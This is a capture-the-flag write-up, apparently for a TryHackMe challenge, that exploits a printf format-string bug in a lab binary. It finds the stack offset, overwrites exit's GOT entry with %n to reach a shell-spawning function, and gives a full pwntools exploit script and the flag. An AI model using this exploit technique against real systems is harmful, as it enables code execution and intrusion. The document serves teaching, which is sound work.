

# Not Specified

## Source Code Analysis

We can see that `printf` is used without any specifier

```python
int win(){

    system("/bin/sh\0");

}

int main(){

    setup();

    banner();

    char *username[32];

    puts("Please provide your username\n");

    read(0,username,sizeof(username));

    puts("Thanks! ");

    printf(username);

    puts("\nbye\n");

    exit(1);    

}
```

It is actually indicated in the manual of `printf` (`man 3 printf`)

> 
> 
> 
> **BUGS**
> Code such as `printf(foo);` often indicates a bug, since foo may contain a `%` character.  If foo comes from untrusted user input, it may contain `%n`, causing the `printf()` call to write to memory and creating a security hole.
> 

So our goal is to reach the `win` function and get the flag

## Basic Inspection

We can first do some basic inspection on the ELF

```bash
─$ file notspecified 
notspecified: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=454c143c896fd75300d52323391307a6eb8e0b15, for GNU/Linux 3.2.0, not stripped

└─$ checksec --file=notspecified 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74 Symbols        No    0               2               notspecified

└─$ ldd notspecified 
        linux-vdso.so.1 (0x00007f161aa29000)
        libc.so.6 => /usr/lib/x86_64-linux-gnu/libc.so.6 (0x00007f161a811000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f161aa2b000)

```

We can see no PIE and partial RELRO, which will be handy for the later exploitation.

## Finding the offset

The first step in any format string exploit is **identifying the offset**.

We can figure it out by writing a pwntool script

```bash
from pwn import *

def start(argv=[], *a, **kwargs):
     if args.GDB:
         return gdb.debug([exe]+argv, gdbscript=gdbscript, *a, **kwargs)
     elif args.REMOTE:
         return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
     else:
         return process([exe]+argv, *a, **kwargs)

gdbscript='''
b *main+121
continue
'''

exe='./notspecified'
elf=context.binary=ELF(exe)
context.log_level='debug'

banner=b'Please provide your username'

# We will use the AAAAAAAA to see where will they be store
# To show the stack, we will print the hex values one by one, using the '.' as a delimiter 

payload=b'AAAAAAAA'+b'%x.'*10

io=start()

io.sendlineafter(banner,payload)

#Skip the \n character
io.recvline()
#Thanks message
io.recvline()
#Another \n character
io.recvline()

result=io.recvline().strip()

log.info(result)

#io.interactive()
```

Running the script will shows us 

```bash
─$ python exploit.py                                                                                                                                                                                                                         
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[DEBUG] Sent 0x27 bytes:
    b'AAAAAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.\n'
[DEBUG] Received 0x5e bytes:
    b'Thanks! \n'
    b'AAAAAAAA6a0643.6a1790.6a1790.0.0.41414141.252e7825.2e78252e.78252e78.252e7825.\n'
    b'\n'
    b'bye\n'
    b'\n'
...
[*] AAAAAAAA6a0643.6a1790.6a1790.0.0.41414141.252e7825.2e78252e.78252e78.252e7825.
```

We can count the `%x` needed to show `41414141` (AAAA), which is 6.

In fact, it is usually 6, as the `printf` function follows the [x86 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions) and prints out the registers. The first 5 registers are: `RSI`, `RDX`, `RCX`, `R8`, `R9`. Then it goes to the stack. In this case, the ‘A’s are stored in [RSP+0].

To verify, we can just print the sixth element by specifying `%6$x`.

```bash
payload=b'AAAAAAAA'+b'%6$x'
```

Run the script again, and we can see the `41414141` again.

```bash
─$ python exploit.py 
...
[DEBUG] Sent 0xd bytes:
    b'AAAAAAAA%6$x\n'
[DEBUG] Received 0x21 bytes:
    00000000  54 68 61 6e  6b 73 21 20  0a 41 41 41  41 41 41 41  │Than│ks! │·AAA│AAAA│
    00000010  41 34 31 34  31 34 31 34  31 0a 7f 0a  62 79 65 0a  │A414│1414│1···│bye·│
    00000020  0a                                                  │·│
    00000021
[*] AAAAAAAA41414141

```

## Overwriting the stack

In the above, we were able to leak values from the stack, but this won’t takes us to `win` function alone.

To begin to write our payload on the stack, we need to use the `%n` specifier. According to the man page, it is defined as:

> The number of characters written so far is stored into the integer pointed to by the corresponding argument.
> 

In normal cases, the `%n` is used to point to a variable to keep track of the length of the input. However, we can also use it to our benefit to overwrite a value on an address.

But what should we overwrite? If we look at the disassembled main function, we can see that after the `printf` function call, it will call `puts` and `exit` from PLT 

```bash
0000000000401320 <main>:
  401320:       f3 0f 1e fa             endbr64
  401324:       55                      push   %rbp
  401325:       48 89 e5                mov    %rsp,%rbp
  401328:       48 81 ec 00 01 00 00    sub    $0x100,%rsp
  40132f:       b8 00 00 00 00          mov    $0x0,%eax
  401334:       e8 d4 fe ff ff          call   40120d <setup>
  401339:       b8 00 00 00 00          mov    $0x0,%eax
  40133e:       e8 11 ff ff ff          call   401254 <banner>
  401343:       48 8d 3d a0 0f 00 00    lea    0xfa0(%rip),%rdi        # 4022ea <_IO_stdin_used+0x2ea>
  40134a:       e8 61 fd ff ff          call   4010b0 <puts@plt>
  40134f:       48 8d 85 00 ff ff ff    lea    -0x100(%rbp),%rax
  401356:       ba 00 01 00 00          mov    $0x100,%edx
  40135b:       48 89 c6                mov    %rax,%rsi
  40135e:       bf 00 00 00 00          mov    $0x0,%edi
  401363:       e8 78 fd ff ff          call   4010e0 <read@plt>
  401368:       48 8d 3d 99 0f 00 00    lea    0xf99(%rip),%rdi        # 402308 <_IO_stdin_used+0x308>
  40136f:       e8 3c fd ff ff          call   4010b0 <puts@plt>
  401374:       48 8d 85 00 ff ff ff    lea    -0x100(%rbp),%rax
  40137b:       48 89 c7                mov    %rax,%rdi
  40137e:       b8 00 00 00 00          mov    $0x0,%eax
  401383:       e8 48 fd ff ff          call   4010d0 <printf@plt>
  401388:       48 8d 3d 82 0f 00 00    lea    0xf82(%rip),%rdi        # 402311 <_IO_stdin_used+0x311>
  40138f:       e8 1c fd ff ff          call   4010b0 <puts@plt>
  401394:       bf 01 00 00 00          mov    $0x1,%edi
  401399:       e8 62 fd ff ff          call   401100 <exit@plt>
  40139e:       66 90                   xchg   %ax,%ax

```

Because of partial RELRO (and No PIE), we can overwrite the GOT entry, and force it to go to the `win` function.

We will pick to overwrite the GOT entry for `exit`. For `puts`, we also need to take care of stack alignment, which makes things much more complicated.

To exploit, we can write a payload like this:

```bash
win=elf.symbols.win
exit=elf.got.exit

#Win function
payload=f'%{win}u'.encode()
#Specify to overwrite the 8th argument, which is the GOT of exit
payload+=b"%8$n"
#Extra padding to fully occipy the 6th and 7th arguemnts
payload=payload.ljust(16, b'A')
#Place the exit address at last because it contain 00, which will be treated as null bytes and printf will stop reading, which is also why we pad 'A's in the above
payload+=p64(exit)
```

So basically, we will:

1. We will create a massive padding (generated by `printf`) that is equal to the decimal representation of the win address
2. `printf` will then see `%8$n`, it write the amount of padding (that is the `win` address) to the 8th parameter
3. Provide extra padding so that the sixth and seventh parameters are full, so that the `exit` GOT address won’t be split mid-way
4. specify the `exit` GOT address  

If we now run the exploit, we will see that we can run any commands



Using GDB mode, we can see that the `exit` GOT entry now points to the `win` function


Now we can remote to the remote server and get the flag

```bash
└─$ python exploit.py REMOTE <Host> <Port>
[DEBUG] Received 0x366 bytes:                                                                                                                                                                                                               
    b'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                3223095075AAAH@@\n'
    b'bye\n'
    b'\n'
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                3223095075AAAH@@
bye

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'run\n'
flag.txt
run
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x25 bytes:
    b'THM{l3arn1ng_f0rm4t_str1ngs_awes0m3}\n'
THM{l3arn1ng_f0rm4t_str1ngs_awes0m3}
```

## Full Exploit Script

```bash
from pwn import *

def start(argv=[], *a, **kwargs):
     if args.GDB:
         return gdb.debug([exe]+argv, gdbscript=gdbscript, *a, **kwargs)
     elif args.REMOTE:
         return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
     else:
         return process([exe]+argv, *a, **kwargs)

gdbscript='''
b *main+121
continue
'''

exe='./notspecified'
elf=context.binary=ELF(exe)
context.log_level='debug'

banner=b'Please provide your username'

# We will use the AAAAAAAA to see where will they be store
# To leak the registers, we will print the hex values one by one, using the '.' as a delimiter 

#payload=b'AAAAAAAA'+b'%x.'*10
#payload=b'AAAAAAAA'+b'%6$x'

win=elf.symbols.win
exit=elf.got.exit

#Win function
payload=f'%{win}u'.encode()
#Specify to overwrite the 8th argument, which is the GOT of exit
payload+=b"%8$n"
#Extra padding to fully occipy the 6th and 7th arguemnts
payload=payload.ljust(16, b'A')
#Place the exit address at last because it contain 00, which will be treated as null bytes and printf will stop reading, which is also why we pad 'A's in the above
payload+=p64(exit)
win=elf.symbols.win
exit=elf.got.exit

io=start()

io.sendlineafter(banner,payload)

'''
#Skip the \n character
io.recvline()
#Thanks message
io.recvline()
#Another \n character
io.recvline()

result=io.recvline().strip()

log.info(result)
'''
io.interactive()
```

Flag: `THM{l3arn1ng_f0rm4t_str1ngs_awes0m3}`
